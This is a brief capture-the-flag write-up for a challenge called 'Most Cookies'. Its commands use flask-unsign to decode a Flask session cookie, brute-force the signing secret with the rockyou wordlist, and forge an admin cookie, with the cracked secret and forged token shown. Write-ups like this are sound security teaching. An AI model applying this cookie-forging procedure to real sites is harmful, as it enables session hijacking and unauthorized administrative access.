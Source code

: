 # Most Cookies

1. Inspect the website cookies.
![image](https://github.com/user-attachments/assets/ee3aa372-94d3-443b-927b-340e487e5d20)


This is a flask cookie.

2. Inorder to crack it you can use **flask-unsign** tool.

```python
pip3 install flask-unsign
```

3. decode the cookie to determine the value.
```bash
flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z3QHLA.nVmLIBceO6cKuwt1DqyDYTcjdkE'
```

<font color="red">{'very_auth': 'snickerdoodle'}</font>

4. Crack the **secret** so you can make your own cookie.
    - make a cookie.txt and store the encoded cookie value.
```bash
flask-unsign --unsign --cookie < cookie.txt --wordlist /usr/share/wordlists/rockyou.txt --no-literal-eval
```

<font color="red">b'fortune'</font>

5. After getting the secret value sign a new cookie.

flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'fortune'
<font color="red">eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z3QCYQ.xJV691iZUqOyCimwkii-9g4pxQA</font>

6. Change the cookie vlaue on the website and you get the flag.
![image](https://github.com/user-attachments/assets/4d21f4e7-adfe-439f-9158-dbd9f111f9fb)

